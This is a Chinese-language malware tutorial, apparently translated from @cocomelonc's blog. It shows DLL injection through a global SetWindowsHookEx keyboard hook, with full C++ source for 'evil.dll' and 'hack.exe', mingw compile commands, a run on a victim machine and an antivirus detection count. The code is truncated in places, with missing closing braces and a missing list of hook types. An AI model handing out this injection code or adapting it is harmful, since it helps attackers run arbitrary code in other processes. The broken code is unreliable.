










\newpage
\subsection{通过 SetWindowsHookEx 进行经典 DLL 注入：简单的 C++ 恶意软件}

在本教程中，我将介绍使用 SetWindowsHookEx 方法进行 DLL 注入。

{width="80%"}

在本教程中，我将介绍使用 `SetWindowsHookEx` 方法进行 DLL 注入。

### SetWindowsHookEx

我们来看一个演示这项技术的例子。`SetWindowsHookEx` 把钩子例程安装到钩子链中，之后每当特定事件被触发时，该例程就会被调用。我们来看这个函数的语法：

```cpp
HHOOK SetWindowsHookExA(
  [in] int  idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD  dwThreadId
);
```

这里最重要的形参是 `idHook`。它指定要安装的钩子类型，可以取以下值之一：

在我们的例子中，我会钩住 `WH_KEYBOARD` 类型的事件，它让我们可以监视击键消息。

### 恶意 DLL

我们来准备我们的恶意 DLL。为了简单起见，我们创建一个只弹出一个消息框的 DLL：

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
  NULL,
  "Meow from evil.dll!",
  "=^..^=",
  MB_OK
  );
  return 0;

```

如你所见，我们有一个非常简单的 DLL。`DllMain()` 函数在 DLL 被加载到进程地址空间时被调用。此外还有一个名为 `Meow()` 的函数，它是一个导出函数，只弹出一个「Meow from evil.dll!」消息框。

### 示例：简单的恶意软件

接下来我们需要做的是创建我们的恶意软件。我们来看源代码：

```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;

```

它同样非常简单。首先我们调用 `LoadLibrary` 来加载我们的恶意 DLL：

{width="80%"}

然后，我们调用 `GetProcAddress` 获取导出函数 `Meow` 的地址：

{width="80%"}

之后，我们的恶意软件调用最重要的函数 `SetWindowsHookEx`。传给该函数的形参决定了这个函数实际会做什么：

{width="80%"}

如你所见，每当键盘事件发生时，我们的函数就会被调用。我们传入了导出函数的地址——`meowFunc` 形参。我们还传入了指向我们 DLL 的句柄——`meowDll` 形参。最后一个形参 `0` 表示我们希望钩住所有程序，而不仅仅是某个特定程序，所以这是一个全局钩子。

然后我们调用 `Sleep`：

{width="80%"}

用来演示我们的钩子在起作用。

然后我们调用 `UnhookWindowsHookEx()` 函数来卸掉之前钩住的 `WH_KEYBOARD` 动作：

{width="80%"}

那么，在理解了恶意软件的完整代码之后，我们终于可以测试它了。

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

我们先编译恶意 DLL：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

{width="80%"}

然后，看它实际运行！在受害机器（Windows 7 x64）上启动我们的 `hack.exe`：

```cmd
.\hack.exe
```

{width="80%"}

我们可以看到一切都成功完成了，此时每当我们启动一个程序，只有按下键盘按键时才会弹出我们的消息框。

### 结论

在本节中，我演示了如何使用 `SetWindowsHookEx` 函数把 DLL 注入到进程的地址空间，并在进程的地址空间内执行任意代码。

有一个注意事项。这项技术在我的 Windows 10 x64 机器上不起作用。我认为原因是这样：CIG 阻止了这项技术。Windows 10 x64 有两个重要的机制：

CFG（Control Flow Guard，控制流保护）——阻止对未获批准地址的间接调用

addresses

CIG（Code Integrity Guard，代码完整性保护）——只允许由 Microsoft、Microsoft Store 或 WHQL 签名的模块被加载到进程内存中

在 BlackHat USA 2019 的这个演讲中，作者解释了 CIG 会阻止这项技术。

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.

我们把 `hack.exe` 上传到 virustotal：

{width="80%"}

<https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921>

所以，67 个 AV 引擎中有 5 个把我们的文件检测为恶意。

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)  
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)  
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)  
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)  
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)

编译恶意软件代码：
